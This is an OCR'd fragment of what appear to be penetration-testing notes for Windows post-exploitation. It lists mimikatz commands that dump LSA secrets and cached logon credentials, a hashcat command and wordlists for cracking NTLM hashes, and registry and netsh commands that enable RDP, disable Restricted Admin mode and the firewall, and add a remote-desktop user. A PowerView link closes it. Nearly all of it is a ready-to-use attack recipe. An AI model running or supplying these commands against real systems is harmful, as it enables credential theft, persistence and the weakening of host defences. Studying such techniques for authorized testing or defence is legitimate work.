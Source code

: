    lsadump::secerts	# dumps the secrets stored in the LSA (Local Security Authority)
   
   lsadump::cache		#  dumps the cache of logon credentials that is maintained for disconnected operations like logging in while there is no connection to the domain controller
   
   lsadump::lsa /patch
   ```
   
   bruteforce NTLM hash
   
   ```
   hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
   
   rules
   	/usr/share/hashcat/rules/best64.rule
   	/usr/share/hashcat/rules/rockyou-30000.rule
   
   wordlists
   	/usr/share/wordlists/rockyou.tx
   	/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
   	/usr/share/john/password.lst
   ```
   
   
   
5. run `linPEAS` again once have administrator access



Enable RDP

```
# changes a Windows Registry value to enable Remote Desktop Connections
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Enable / Disable restricted Admin mode
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 1 /f

# Disable the Firewall For all Profies 
netsh advfirewall set allprofiles state off

# adds a specified user to the "remote desktop users" group
net user /add username password
net localgroup "remote desktop users" <USERNAME> /add
```



PowerView 3.0 Trick

https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993






```